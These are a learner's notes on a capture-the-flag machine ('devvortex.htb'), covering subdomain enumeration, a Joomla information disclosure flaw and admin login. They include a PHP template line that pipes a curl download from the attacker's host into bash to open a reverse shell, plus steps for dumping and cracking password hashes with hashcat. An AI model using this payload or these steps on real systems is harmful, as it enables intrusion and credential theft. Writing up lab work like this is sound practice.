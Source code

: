 ## Enumeration 
- so this has ssh and http open
-  i tried some very basic sql injection into the contact us and the subscribe but it doesnt seem to do much
- tried gobuster for subdomains or directories and found nothing
## ANSWER
- so I needed to make sure to add `--append-domain` to gobuster at the end to actually make it look for subdomains
- Then we found dev.devvortex.htb, so we add it to /etc/hosts so that it's mapped to the same ip
- then when we access it we find out it's using Joomla for its CMS (content management system like wordpress) 
- We find out that for joomla there is a certain path to add /api/something somethign (looked it up), and it shows you the version that is being used.
- We look up the version and the cve's that it has, and we find a information disclosure vulnerability.
	- You can add a path in the link and find the users and passwords
- Then we are able to access that administrator page through lewis's admin privaleges
### Remote Shell
- we can open a python server on our machine with a shell in the  same folder
- we can edit the templates php files to make it connect to our python server and pass the shell script 
- `<?php system("curl 10.10.14.3:1234/rev.sh | bash"); ?>`
- we open netcat on the port that we specified and 
- run `ss -tlpn`, which is socket statistics (like netstat). t shows tcp, l shows listening, p shows show the process  name and PID, n shows ports in numeric form
- we see that ports 3306 and 33060 are open which usually use mysql
- we see that in configuration.php the user lewis still uses the same password on the sql server so we log in
- we list users and their passwords
- run hashid 'hash' to figure out the type of has to put into hashmode in hashcat or just run hashcat with no mode and it ill tell you the most likely modes
- hashcat -m [hashmode] -a [attack mode, usually 0] hash.txt /usr/share/wordlists/rockyou.txt